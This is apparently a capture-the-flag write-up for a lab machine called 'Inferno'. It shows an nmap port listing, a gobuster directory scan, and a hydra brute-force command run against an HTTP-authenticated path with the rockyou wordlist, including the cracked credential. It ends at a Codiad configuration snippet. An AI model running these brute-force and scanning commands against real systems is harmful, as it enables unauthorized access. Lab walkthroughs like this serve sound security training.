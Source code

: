 ```bash
6566/tcp  open  sane-port
6667/tcp  open  irc
8021/tcp  open  ftp-proxy
8081/tcp  open  blackice-icecap
8088/tcp  open  radan-http
9418/tcp  open  git
10000/tcp open  snet-sensor-mgmt
10082/tcp open  amandaidx
```

<h2>gobuster</h2>

```bash
:~# gobuster dir -u http://xx.xxx.xxx.xx/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
...
/inferno              (Status: 401) [Size: 460]
/server-status        (Status: 403) [Size: 278]
```

<h2>FTP</h2>

<p>

- did not work</p>

<h2>/inferno</h2>

<p>

- <code>User Name</code> and <code>Password</code> needed</p>

<h2>hydra</h2>
<p>

- tried admin after other usernames such as administrator and inferno</p>

```bash
:~# hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://xx.xxx.xxx.xx/inferno/ -t 60
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
...
[80][http-get] host: xx.xxx.xxx.xx   login: admin   password: dante1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-05 xx:xx:xx
```

<h2>/inferno</h2>

<p>

- logged in<br>
- logged in again</p>
- identified <code>Codiad</code><p>

<img width="1091" height="413" alt="image" src="https://github.com/user-attachments/assets/aba0294c-08ff-44c3-8650-af4ea3a0616c" />

```bash
/ PATH TO CODIAD
define("BASE_PATH", "/var/www/html/inferno");

// BASE URL TO CODIAD (without trailing slash)
define("BASE_URL", "xxx.xxx.x.xxx/inferno");

// THEME : default, modern or clear (look at /themes)
define("THEME", "default");

// ABSOLUTE PATH
define("WHITEPATHS", BASE_PATH . ",/home");

// PATHS
```